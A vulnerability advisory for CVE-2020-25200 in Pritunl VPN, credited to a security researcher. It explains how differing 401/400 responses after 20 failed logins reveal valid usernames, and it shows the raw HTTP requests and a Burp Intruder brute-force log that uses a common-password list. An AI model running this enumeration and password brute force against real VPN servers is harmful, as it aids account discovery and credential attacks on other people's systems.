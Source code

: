 CVE-2020-25200

Pritunl VPN server - Affected version: Pritunl v1.29.2145.25 553bbd

=========================

Pritunl 1.29.2145.25 allows attackers to enumerate valid VPN usernames via a series of /auth/session login attempts. Initially, the server will return error 401. However, if the username is valid, then after 20 login
attempts, the server will start responding with error 400. Invalid usernames will receive error 401 indefinitely.

=========================

To exploit this vulnerability the attacker needs to start brute-forcing the login repeatedly with the same username. Initially, the server will return error 401 but after 20 attempts, the server
will start returning error 400 if the username is valid. If the username is invalid, the server will keep returning error 401 indefinitely. Therefore it is possible to verify if the username
exists by receiving error 400.

=========================

HTTP request and response for a valid username (after 20 attempts):

POST /auth/session HTTP/1.1
Host: 192.168.1.18
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 40
Origin: https://192.168.1.18
Connection: close
Referer: https://192.168.1.18/login

{"username":"pritunl","password":"paul"}

HTTP/1.1 400 Bad Request
Cache-Control: no-cache, no-store, must-revalidate
Content-Length: 76
Content-Type: application/json
Date: Thu, 03 Sep 2020 22:42:39 GMT
Expires: 0
Pragma: no-cache
Strict-Transport-Security: max-age=31536000
X-Frame-Options: DENY
Connection: close

{"error_msg": "Too many authentication attempts.", "error": "auth_too_many"}

=========================

HTTP request and response for an invalid username (after 20 attempts):

POST /auth/session HTTP/1.1
Host: 192.168.1.18
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 39
Origin: https://192.168.1.18
Connection: close
Referer: https://192.168.1.18/login

{"username":"admin","password":"scott"}


HTTP/1.1 401 Unauthorized
Cache-Control: no-cache, no-store, must-revalidate
Content-Length: 83
Content-Type: application/json
Date: Thu, 03 Sep 2020 22:42:43 GMT
Expires: 0
Pragma: no-cache
Strict-Transport-Security: max-age=31536000
X-Frame-Options: DENY
Connection: close

{"error_msg": "Authentication credentials are not valid.", "error": "auth_invalid"}

=========================
Burp Intruder Log:

0		401	false	false	370	
1	123456	401	false	false	370	
2	password	401	false	false	370	
3	12345678	401	false	false	370	
4	qwerty	401	false	false	370	
5	123456789	401	false	false	370	
6	12345	401	false	false	370	
7	1234	401	false	false	370	
8	111111	401	false	false	370	
9	1234567	401	false	false	370	
10	dragon	401	false	false	370	
11	123123	401	false	false	370	
12	baseball	401	false	false	370	
13	abc123	401	false	false	370	
14	football	401	false	false	370	
15	monkey	401	false	false	370	
16	letmein	401	false	false	370	
17	696969	401	false	false	370	
18	shadow	401	false	false	370	
19	master	401	false	false	370	
20	666666	400	false	false	362	  <-------------- change of the length and of the response code
21	qwertyuiop	400	false	false	362	
22	123321	400	false	false	362	
23	mustang	400	false	false	362	
24	1234567890	400	false	false	362	
25	michael	400	false	false	362	
26	654321	400	false	false	362	
27	pussy	400	false	false	362	
28	superman	400	false	false	362	
29	1qaz2wsx	400	false	false	362	
30	7777777	400	false	false	362	
31	xxxxx	400	false	false	362	
32	121212	400	false	false	362	
33	000000	400	false	false	362	
34	qazwsx	400	false	false	362	
35	123qwe	400	false	false	362	
36	killer	400	false	false	362	
37	trustno1	400	false	false	362	
38	jordan	400	false	false	362	
39	jennifer	400	false	false	362	
40	zxcvbnm	400	false	false	362	
41	asdfgh	400	false	false	362	
42	hunter	400	false	false	362	

<<CUT>>

=========================


Security Researcher - Lukasz Studniarz

